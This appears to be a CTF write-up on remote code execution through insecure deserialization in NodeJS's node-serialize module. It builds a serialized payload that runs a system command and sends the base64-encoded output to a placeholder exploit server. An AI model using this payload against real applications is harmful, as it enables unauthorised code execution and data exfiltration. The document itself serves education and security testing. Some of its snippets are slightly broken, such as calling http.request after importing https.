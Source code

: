 ## NodeJS Insecure Deserialization Out-Of-Band Exploitation

### Introduction

If you find a vulnerability that allows you to run NodeJS code but you're unable to see the results, then you could use this exploitation technique to exfiltrate the data or the system commands output through an indirect channel (Out of Band). 

This exploitation techniques is one of the many ways you can see the output of executed commands, but I happen to come up with this technique during solving a web challenge in a CTF.

In my case, an Insecure Deserialization vulnerability in NodeJS that allowed me to execute NodeJS code. 

---

### Serialization and Deserialization

Serialization is the process of converting an object into a stream of bytes to store the object or transmit it to memory, a database, or a file. 
Its main purpose is to save the state of an object in order to be able to recreate it when needed.

Deserialization is the reverse process.

### Insecure Deserialization

The vulnerability occurs in the deserialization process when the serialized data is controlled by the user. If a user provides malicious data it will be executed by the back-end technology.

### The Hot Spot

The hot spot in the application was the cookie value. It was a base64 encoded serialized object, after playing with the cookie, removing, adding and changing different values in the object it returned an error showing me that the application is using NodeJS and specifically the node-serialize NodeJS module used in the serialization process.

It was pretty much similar to this blog post: https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

The cookies passed to `unserialize()` function which could be exploited to achieve Remote Code Execution.  

### Serialization and Deserialization in NodeJS

An Object in JavaScript is determined by curly braces, like this { property : "value" }

A serialized object in NodeJS will differ depending on the property and the value, so if you serialize the above object it would look like {"property" : "value"}, but if you change the value to a function instead of a string, like { rce : function(){console.log("Hello");} }

And it will look like this:

```javascript
{ "rce" : "_$$ND_FUNC$$_function(){console.log(\\"Hello\\");}" }
```

But in order for the unserialize() function to execute this code, we're going to use the Immediately Invoked Function Expression, which is a JavaScript thing that allows us to call or invoke the function, in our case in the serialized object. All we need to do is to add parentheses () after the body of the function. 

```javascript
{ "rce" : "_$$ND_FUNC$$_function(){console.log(\\"Hello\\");}()" }
```

<img src="https://raw.githubusercontent.com/Th3Mind/assets/main/IIFE.png" />

To serialize objects in nodejs, download node and npm on your machine, install node-serialize module with npm, require the module in your code, then use the required module's serialize(obj) method to serialize an object.

Now that we know we can execute JavaScript code, let's build the OOB exploitation payload.

#### Requirements

- An external http server ( BurpSuite Collaborator for example ) to recieve the data, in our case the output of executed system commands.
- NodeJS modules for building the payload: node:child_process, https, node-serialize


### Hack Steps

1. Execute system commands in NodeJS
2. Base64 encode the executed command's output ( To ensure the NodeJS doesn't return exceptions while sending data that include special characters and spaces to an external website )
3. Send the base64 encoded data as a query string to the external http server.

#### Executing System Commands in NodeJS

```javascript
var { exec } = require('node:child_process')

// run the `ls` command
exec('ls', (err, output) => {
    // Do stuff with output 
    if (err) {
        // log and return if we encounter an error
        console.error("could not execute command: ", err)
        return
    }
    console.log("Output: \n", output)
})
```

#### Base64 Encoding in NodeJS 

Buffers can be used for taking a string or piece of data and doing Base64 encoding of the result. And because Buffers are global objects there's no need for a require.

```javascript
let data = "commandsoutput";
let buff = new Buffer(data);
let base64data = buff.toString('base64');
```

#### Sending HTTP requests in NodeJS 

https://www.geeksforgeeks.org/how-to-make-http-requests-in-node-js/

```javascript
// Importing https module
const https = require('https');
  
// Setting the configuration for
// the request
const options = {
    hostname: '',
    path: '/posts',
    method: 'GET'
};
    
// Sending the request
const req = http.request(options, (res) => {
    let data = ''
     
    res.on('data', (chunk) => {
        data += chunk;
    });
    
    // Ending the response 
    res.on('end', () => {
        console.log('Body:', JSON.parse(data))
    });
       
}).on("error", (err) => {
    console.log("Error: ", err)
}).end()
```
### Payload

So, now we're going to combine all of the above to form our payload with respect to the Hack Steps above.

The final paylaod after serializing will look like this: 

```javascript
{"rce":"_$$ND_FUNC$$_function(){ var { exec } = require('node:child_process'); exec('uname', (err, output) => {let buff = new Buffer(output); let base64data = buff.toString('base64');var https = require('https'); var options = {hostname: 'YOUR_EXTERNAL_EXPLOIT_SERVER.com',path: '/?b64='+base64data, method: 'GET'};var req = http.request(options, (res) => {console.log(\\"done\\")}).end()})}()"}
```

After I base64 encoded the above payload and sent it to the server through the cookie, I got the uname command output in my exploit server!

#### Extra Step

As an extra step, you can send the data to a php script you've written to automatically take the parameter value and decode it from base64.

### Thank you!

Thanks for reading this post, I hope it was a helpful read :)! 


